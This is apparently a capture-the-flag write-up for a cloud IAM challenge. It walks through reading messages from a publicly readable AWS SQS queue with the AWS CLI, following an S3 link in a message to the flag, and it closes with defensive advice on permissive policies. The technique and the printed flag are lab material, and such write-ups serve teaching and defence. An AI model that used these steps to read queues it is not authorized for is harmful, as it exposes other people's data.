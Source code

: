 # Writeup for Big IAM Challenge: Challenge 2

# Challenge number

    2

## Challenge Statement

The objective of this challenge was to capture the flag by identifying and exploiting overly permissive IAM policies related to AWS SQS (Simple Queue Service). Participants needed to analyze the policy, interact with the SQS queue using the AWS CLI, and retrieve the flag from a message in the queue.

## IAM Policy

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```

### Short analysis about the IAM policy

```
* What do I have access to?
  - The policy allows anyone (`Principal: "*"`) to send messages (`sqs:SendMessage`) and receive messages (`sqs:ReceiveMessage`) from the specified SQS queue (`arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2`).

* What don't I have access to?
  - The policy does not grant access to other actions like deleting the queue, purging messages, or modifying queue attributes.

* What do I find interesting?
  - The policy exposes the queue to public interaction, which could lead to unauthorized users retrieving sensitive information or spamming the queue with irrelevant messages.
```

## Solution

Step 1: Identified Accessible Queue

Upon attempting to list the SQS queues using the aws sqs list-queues command, I encountered an access denial error:

    aws sqs list-queues

An error occurred (AccessDenied) when calling the ListQueues operation: User: arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell is not authorized to perform: sqs:listqueues on resource: arn:aws:sqs:us-east-1:657483584613: because no identity-based policy allows the sqs:listqueues action

This error indicates that my IAM role doesn't have permission to list the queues.

Step 2: Retrieved Messages from the Queue

Despite the access denial when listing queues, I proceeded with the next logical step: retrieving messages directly from the known queue URL using the aws sqs receive-message command:

aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --attribute-names All

This returned the following:
{ 
    "Messages": [ 
        { 
            "MessageId": "d9eb89bf-887b-4485-9492-4356f31714b7", 
            "ReceiptHandle": "AQEB4i32ojDgnwqDa+oW/8rQX/WeolHf1qw/Te576bhotWY1Kjp0e4rqzqwm7VN20i4hQSB68QSsrulYVXbjLxquUbBALS 
b9HuHjPCPbmTTB05qwfSnJncKgFR3QklPcQb9XHHTylQeJM+CmNaMva0dYeeGtxlptuitbls87MIKMKbEbGDyhD19ghrNIXidD+cJ9aNWFNYQ6qX3xuWLyjFhQow 
NNbW822o7ATj2T8gAqdHVP2gcNxZKAwFUggkqbyz6YGGYiiGUnZfMf9bKbw3/DCTZr8CQJtIVuUwIcH77t26Cl2tR7wTJJEOp1XUOYG8BJos+aaRFQsetICkYfbm 
VPyrWKuDVQee+whA02E2xdwb0LykwuaxSCCRdknUAgkJjkxj0I9J8hobLMJ9MInWdYd/7ruv9P4oabajVAaSOuuFY=", 
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd", 
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\ 
": \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\", \"IsAdmin\": true}", 
            "Attributes": { 
                "SenderId": "AROARK7LBOHXGHGQ5XCT5:tbic-wiz-send-flag-to-sqs-8d265a4", 
                "ApproximateFirstReceiveTimestamp": "1737751264648", 
                "ApproximateReceiveCount": "1", 
                "SentTimestamp": "1737748948409", 
                "AWSTraceHeader": "Root=1-6793f1d4-3d95a53a66746b040ddd4874;Parent=012caf6aabd08dd6;Sampled=0;Lineage=1:037b 
ed70:0" 
            } 
        } 
    ] 
}

Step 3: Accessed the URL

The URL provided in the message directed me to the flag. The URL is:

https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html

I accessed this URL and found the flag content hidden within the HTML file.

Step 4: Captured the Flag

The content retrieved from the HTML file revealed the flag:

Flag Content: {wiz:you-are-at-the-front-of-the-queue}

Step 5: Submitted the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and I was redirected to success screen.

## Reflection

- What was your approach?
  My approach involved analyzing the IAM policy to identify access permissions, using AWS CLI commands to retrieve messages from the queue, and following the URL in the message to access the file containing the flag.

- What was the biggest challenge?
  The biggest challenge was encountering the access denial error when trying to list SQS queues. However, I was able to proceed by directly accessing the known queue and retrieving the message.

- How did you overcome the challenges?
  By bypassing the need to list queues and directly targeting the queue using the correct URL, I was able to retrieve the flag message.

- What led to the breakthrough?
  The realization that even though I couldn't list the queues, I could still interact with the queue and retrieve its messages using the sqs:ReceiveMessage permission led to the breakthrough.

- On the blue side, how can the learning be used to properly defend important assets?

  - Avoid overly permissive IAM policies (e.g., Principal: "\*"), which expose critical resources like SQS to the public.
  - Implement stricter controls by restricting access to trusted users or roles.
  - Consider encrypting sensitive data in transit and at rest.
  - Regularly audit and review IAM policies, especially for sensitive resources like SQS and S3.
  - Use specific actions rather than wildcard permissions to limit unnecessary exposure.
